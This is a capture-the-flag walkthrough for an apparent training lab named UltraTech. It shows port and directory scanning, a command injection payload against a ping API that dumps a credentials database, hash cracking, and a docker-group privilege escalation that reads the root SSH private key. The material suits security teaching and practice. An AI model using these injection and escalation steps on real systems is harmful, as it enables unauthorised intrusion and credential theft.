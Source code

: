 # UltraTech

## The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing

# It's enumeration time!

## After enumerating the services and resources available on this machine, what did you discover?

### Which software is using the port 8081?

### Which other non-standard port is used?

### Which software using this port?

### Which GNU/Linux distribution seems to be used?

All the answers for these questions we can get from this nmap command

```Bash
nmap -p- -sV <IP>
```

- `-p `: Allow us to scan selected ports
- `-sV`: Probes ports to determine service/version info

[SCREEN01]

### The software using the port 8081 is a REST api, how many of its routes are used by the web application

Scan the api with gobuster

```Bash
gobuster dir -u http://<IP>:8081 -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

[SCREEN02]

# Let the fun begin

## Now that you know which services are available, it's time to exploit them! Did you find somewhere you could try to login? Great! Quick and dirty login implementations usually goes with poor data management. There must be something you can do to explore this machine more thoroughly.

### There is a database lying around, what is its filename?

1. Enumerate the second port for interesting endpoints

```Bash
gobuster dir -u http://<IP>:31331 -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt -x js,php,txt,html
```

[SCREEN03]

2. In the source of `<IP>:31331/partners.html` we can find link to `http://<IP>:31331/js/api.js` which lead us to the `http://${getAPIURL()}/ping?ip=${window.location.hostname}` in which we can perform injection by adding ;\`ls\` at the end

[SCREEN04]
[SCREEN05]

### What is the first user's password hash?

1. Add ;\`cat utech.db.sqlite\`

[SCREEN06]

### What is the password associated with this hash?

1. Put the hash in the [Crack Station](https://crackstation.net/)

[SCREEN07]

# The root of all evil

## Congrats if you've made it this far, you should be able to comfortably run commands on the server by now! Now's the time for the final step! You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal. Mistakes were made, take advantage of it.

### What are the first 9 characters if the root user's private SSH key?

1. Login with ssh, and check the groups

```Bash
ssh r00t@<IP>
id
```

[SCREEN08]

2. Since we are in a docker group, we can exploit it using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), and upgrade bash

```Bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

[SCREEN09]

3. The private/public keys are stored in the usual place:

```Bash
find / -type f -name "*.pub"
ls /root/.ssh/
cat /root/.ssh/id_rsa
```

[SCREEN10]
